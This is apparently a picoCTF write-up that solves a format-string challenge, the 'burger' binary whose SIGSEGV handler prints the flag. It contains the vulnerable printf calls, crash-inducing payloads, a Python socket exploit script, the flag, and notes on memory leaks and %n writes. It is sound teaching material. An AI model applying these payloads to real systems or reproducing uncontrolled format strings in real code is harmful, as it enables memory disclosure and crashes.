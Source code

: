 # Challenge Description
Description: Can you use your knowledge of format strings to make the customers happy?
Download the binary here.
Download the source here.
Additional details will be available after launching your challenge instance.

## Solution
The provided binary introduces a simulation of a burger restaurant serving two customers, Patrick and Bob. Critically, the program pre-loads the flag from flag.txt into a global buffer and establishes a custom SIGSEGV (Segmentation Fault) signal handler. This handler is designed to print the contents of the flag buffer immediately before the program exits due to a crash.

The core vulnerability lies in how the program handles user input for both customers:

```
// Vulnerable snippet 1
scanf("%s", choice1);
int count = printf(choice1); // User input is the format string!
if (count > 2 * BUFSIZE) { 
    serve_bob(); 
}
...
// Vulnerable snippet 2 (inside serve_bob)
scanf("%s", choice2);
printf(choice2); // User input is the format string again!
```

In both instances, the user-supplied string (choice1, choice2) is passed directly as the first argument to printf. This is a classic format string vulnerability. An attacker can provide format specifiers (like %s, %d, %x, %n) as input, which printf will interpret as commands instead of literal text.

The exploit path is a two-stage process:

Stage 1: Satisfy Patrick: To reach the second vulnerability, we must pass the check count > 2 * BUFSIZE (which is count > 64). The menu for Patrick includes Gr%114d_Cheese. When printf processes this, the %114d specifier instructs it to print an integer (likely junk from the stack) padded with spaces to a minimum width of 114 characters. This easily surpasses the 64-character requirement, and the program proceeds to serve_bob().

Stage 2: Crash for Bob: Bob's menu contains Cla%sic_Che%s%steak. When this is passed to printf(choice2), the %s specifiers instruct printf to pop values from the stack and treat them as pointers (char*) to null-terminated strings. The stack almost certainly contains data that is not a valid pointer, causing printf to attempt to read from an invalid memory address. This triggers a Segmentation Fault (SIGSEGV).

The custom SIGSEGV handler catches this crash, prints the flag as intended, and the challenge is solved.

Steps to Reproduce (Manual)
Connect to the challenge instance: nc mimas.picoctf.net 53816

At the first prompt (for Patrick), send the first payload: Gr%114d_Cheese

At the second prompt (for Bob), send the second payload: Cla%sic_Che%s%steak

The service will crash and the signal handler will print the flag.

Automated Exploit (Python 3)
This script automates the two-stage interaction.

```
#!/usr/bin/env python3
# Minimal script to interact with remote challenge
import socket, time
HOST, PORT = "mimas.picoctf.net", 53816
P1, P2 = b"Gr%114d_Cheese\n", b"Cla%sic_Che%s%steak\n"

def recv_all(s, timeout=5):
    """Helper to receive all buffered data from socket."""
    s.settimeout(0.5)
    end_time = time.time() + timeout
    output = b""
    while time.time() < end_time:
        try:
            chunk = s.recv(4096)
        except socket.timeout:
            continue
        if not chunk:
            break
        output += chunk
    return output

with socket.create_connection((HOST, PORT), timeout=8) as s:
    # Receive initial welcome
    print(recv_all(s, 3).decode(errors="ignore"), end="")
    
    # Send payload 1
    s.sendall(P1)
    time.sleep(0.2)
    
    # Receive response and second prompt
    print(recv_all(s, 3).decode(errors="ignore"), end="")
    
    # Send payload 2
    s.sendall(P2)
    
    # Receive the flag
    print(recv_all(s, 4).decode(errors="ignore"), end="")
```
Example Output:
```
$ python3 get_flag_short.py
Welcome to our newly-opened burger place Pico 'n Patty!
Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers:
Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: 
Good job! Patrick is happy!
Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop
Enter your recommendation: 
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_c8362f05}
```
## Flag:
```
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_c8362f05}
```
## Concepts learnt:
Format String Vulnerabilities: The primary vulnerability. Occurs when user-controlled input is used as the format argument in C functions like printf, sprintf, and snprintf. This can be exploited to read arbitrary memory (using %x, %p, %s), write to arbitrary memory (using %n), or cause a Denial of Service (crash).

Exploiting Custom Signal Handlers: The program's behavior of printing a flag within a SIGSEGV handler creates an alternative "win condition." Instead of achieving code execution, the goal shifts to simply causing a crash in a controlled way.

Program Flow Control: The exploit required understanding and manipulating the program's logic. The printf return value (number of characters printed) was used as a gate (if (count > 64)) to a second part of the program.

Understanding printf Mechanics:

Return Value: printf returns the total number of characters successfully written to the output.

Width Specifiers: Using specifiers like %114d forces printf to pad its output to a minimum width, which directly inflates the return value.

Argument Parsing: printf expects arguments on the stack corresponding to its format specifiers. When specifiers are provided without matching arguments (e.g., %s), printf reads whatever data is currently on the stack, interpreting it as the required type (like a pointer).

Automated Interaction with Sockets: Using Python's socket library to connect to a remote service, send payloads, and receive responses, which is a fundamental skill for remote exploitation.

## Notes:
Why Gr%114d_Cheese works: The %114d format specifier tells printf to print an integer (which it just pulls from the stack) and ensure the total width of that printed number is at least 114 characters, padding with spaces if necessary. The string Gr (2 chars), the padded number (114 chars), and _Cheese (7 chars) add up to 2 + 114 + 7 = 123 characters, which is greater than 64.

Why Cla%sic_Che%s%steak crashes: The multiple %s specifiers tell printf to expect multiple char* pointers on the stack. When it pops a non-pointer value (e.g., the integer 0x41414141) and tries to dereference it (read the string at memory address 0x41414141), the operating system detects an invalid memory access and sends a SIGSEGV signal to the process.

The Obvious Mitigation: The vulnerability exists because the user's string is the format string. The correct, secure code would be printf("%s", choice1);. Here, the format string is static ("%s"), and the user's input is safely passed as an argument to be printed as a string, preventing any format specifiers within it from being interpreted.

Alternative Payloads: While crashing with %s was simplest, an attacker could have used %x or %p to leak data from the stack. For example, a payload like %p-%p-%p-%p would print several values from the stack in hexadecimal, potentially revealing pointers or other sensitive information. The %n specifier could even be used to write to memory, but this is a much more complex exploit that requires knowing a target address. Given the SIGSEGV handler, crashing was the intended solution.

## Resources:

1. https://www.google.com/search?q=https://owasp.org/www-community/vulnerabilities/Format_string_attack
2. https://en.wikipedia.org/wiki/Uncontrolled_format_string
3. https://www.youtube.com/watch?v=aq365yzrTVE
